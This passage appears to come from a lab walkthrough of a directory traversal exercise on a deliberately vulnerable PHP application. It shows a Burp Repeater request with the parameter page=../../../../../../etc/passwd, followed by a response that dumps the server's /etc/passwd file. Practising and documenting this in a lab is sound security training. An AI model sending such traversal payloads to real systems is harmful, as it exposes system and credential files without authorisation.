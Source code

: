 ```http
    
[...]
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_1.php?page=../../../../../../etc/passwd HTTP/1.1 📌
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:05:58 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14198
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Files</h1>

    root:x:0:0:root:/root:/bin/bash
<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin
<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin
<br />sync:x:4:65534:sync:/bin:/bin/sync
<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin
<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<br />list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<br />gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<br />libuuid:x:100:101::/var/lib/libuuid:
<br />syslog:x:101:104::/home/syslog:/bin/false
<br />mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
<br /><br />
```